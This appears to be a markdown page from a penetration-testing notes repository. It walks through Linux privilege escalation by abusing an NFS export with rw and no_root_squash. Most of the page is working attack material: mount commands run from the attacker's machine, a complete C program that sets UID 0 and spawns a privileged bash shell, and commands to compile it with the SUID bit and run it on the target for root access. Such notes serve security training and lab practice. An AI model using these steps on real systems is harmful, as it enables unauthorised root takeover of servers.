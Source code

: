 # Privileges Escalation - Linux
# NFS Server exploitation

When we're inside the target machine, we have to check if it's an **NFS (Network File System) server**, in which we could mount locally directories from remote and try to exploit the NFS vulnerability (if there's one).

- [First step - on the target](#first-step---on-the-target)
- [Second step - on our machine](#second-step---on-our-machine)
- [Last step - on the target](#last-step---on-the-target)


## First step -  on the target
- Check if it's an NFS server with `cat /etc/exports`.
  - The output should be `<Remote dir> <Target IP>(<Permissions>)`
  - No output if no NFS service running on it.
- If we get `rw` permissions and also `no_root_squash` option, **we found a vulnerability**, so we can proceed.
  - `no_root_squash` option means that if the client loads a file with UID = 0 (root), the NFS server keeps it. 

## Second step - on our machine
- We have to log in as root, so `sudo su`.
- Then let's create the NFS share: `mkdir /tmp/nfs`.
- And let's mount the remote directory on it: `mount -o rw,vers=3 <Target IP>:<Remote dir> /tmp/nfs` 
- Now we have to create a `rootshell.c` file to run a privileged shell:
  ```
  #include <stdlib.h>
  int main() {
      setuid(0);
      setgid(0);
      system("/bin/bash -p");
      return 0;
  }
  ```  
- In the end, let's compile it with `gcc rootshell.c -o /tmp/nfs/rootshell.elf` and set the SUID bit: `chmod +xs /tmp/nfs/rootshell.elf` 

## Last step - on the target
- We can now launch the privileged shell from the exposed directory (`/tmp`) with `/tmp/rootshell.elf`.
- We should be able to gain access to a root shell. Check it with `whoami`.




